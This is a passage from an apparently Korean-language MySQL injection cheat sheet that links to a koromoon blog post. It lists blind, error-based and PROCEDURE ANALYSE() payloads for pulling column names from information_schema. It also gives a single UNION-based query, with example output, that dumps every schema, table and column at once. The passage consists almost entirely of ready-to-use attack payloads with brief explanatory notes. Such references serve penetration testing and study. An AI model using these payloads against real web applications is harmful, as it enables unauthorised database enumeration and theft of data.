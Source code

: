ⓑ Blind<br><br>

`AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'`<br><br>

ⓒ Error<br><br>

`AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2)))`<br><br>

`(@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0);`<br><br>

`AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));-- Available in MySQL 5.1.5`<br><br>

`AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- Fixed in MySQL 5.1`<br><br>

`AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b) a)`<br><br>

`AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b USING (SOME_EXISTING_COLUMN)) a)`<br><br>

ⓓ PROCEDURE ANALYSE()<br><br>

`PROCEDURE ANALYSE()`<br><br>

노트 :<br>
웹 응용 프로그램에서 주입하려는 SQL 쿼리에 선택한 컬럼 중 하나를 표시해야 함.<br>
PROCEDURE ANALYSE() 함수는 MySQL 3.23.x 이상 버전에서 사용 가능한 기능으로 테이블 각 열에 대한 최적의 데이터 형식을 제공하거나 현재 쿼리에서 사용되고 있는 Column 에 관한 정보를 뿌려주는 역할을 함.<br><br>

예 :<br>
`주어진 쿼리 SELECT username, permission FROM Users WHERE id = 1;`<br><br>

1 PROCEDURE ANALYSE()&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;첫 번째 컬럼의 이름 가져오기<br>
1 LIMIT 1,1 PROCEDURE ANALYSE()&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;두 번째 컬럼의 이름 가져오기<br>
1 LIMIT 2,1 PROCEDURE ANALYSE()&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;세 번째 컬럼의 이름 가져오기<br><br>

④ 한 번에 여러 테이블/컬럼 검색<br><br>

`SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x`<br><br>

예 :<br>
`SELECT * FROM Users WHERE id = '-1' UNION SELECT 1, 2, (SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x), 4--+';`<br><br>

결과값 :<br>
`[ information_schema ] >CHARACTER_SETS > CHARACTER_SET_NAME`<br>
`[ information_schema ] >CHARACTER_SETS > DEFAULT_COLLATE_NAME`<br>
`[ information_schema ] >CHARACTER_SETS > DESCRIPTION`<br>
`[ information_schema ] >CHARACTER_SETS > MAXLEN`<br>
`[ information_schema ] >COLLATIONS > COLLATION_NAME`<br>
`[ information_schema ] >COLLATIONS > CHARACTER_SET_NAME`<br>
`[ information_schema ] >COLLATIONS > ID`<br>
`[ information_schema ] >COLLATIONS > IS_DEFAULT`<br>
`[ information_schema ] >COLLATIONS > IS_COMPILED`<br><br>


[KOROMOONlink]: https://koromoon.blogspot.com/2018/10/mysql-injection-cheet-sheet.html "Go KOROMOON"